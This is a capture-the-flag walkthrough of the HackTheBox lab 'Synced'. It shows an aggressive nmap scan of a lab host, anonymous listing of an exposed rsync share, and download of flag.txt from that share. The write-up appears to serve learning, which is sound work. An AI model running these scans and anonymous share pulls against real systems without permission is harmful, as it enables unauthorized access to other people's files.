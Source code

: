 ## Synced HackTheBox
#### About This Room
If you are having truble maintaining files and folder between your VPS and local machine, then this Lab will help you with that. It's all about Remot Synchronizing files/ Folders between 2 host. Really cool. 

**`Expertise:`**
- Nmap
- rsync

----

#### Network Enum
`nmap -v -A -sV --privileged -T4 10.129.19.189 -p- -O -sC`

**`Result`**
|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|873/tcp|open|rsync|protocol version 31|

we have something called rsync. Upon googling, I've come to know that, this particuler command is used to sync files/ folders between two remote host.

Now it's time to get into the remote host and see what it has.

#### Getting in with Rsync
Luckly we have `rsync` command already in our kali machine. no need to install it.

I googled out this command but got nothing special. So I used the `help` command for it: `rsync -h`

I got one command like this:
```bash
rsync [OPTION]... SRC [SRC]... rsync://[USER@]HOST[:PORT]/DEST
```
what I did basically is view what we have here. For that I've used the following command:
```bash
rsync -vv rsync://10.129.19.189:873/

## result
opening tcp connection to 10.129.19.189 port 873
sending daemon args: --server --sender -vvde.LsfxCIvu . /  (5 args)
public          Anonymous Share
```
We have a directory called **`public`**. Let's see what's inside.
```bash
rsync -vv rsync://10.129.19.189:873/public/

## Result

drwxr-xr-x          4,096 2022/10/25 04:02:23 .
-rw-r--r--             33 2022/10/25 03:32:03 flag.txt
```
we have a file called `flag.txt` which is our flag obviously.

Let's bring that thing to our machine
```bash
rsync -vv -a rsync://10.129.19.189:873/public/flag.txt ./
```
This will bring the file to our local directory (present working directory).
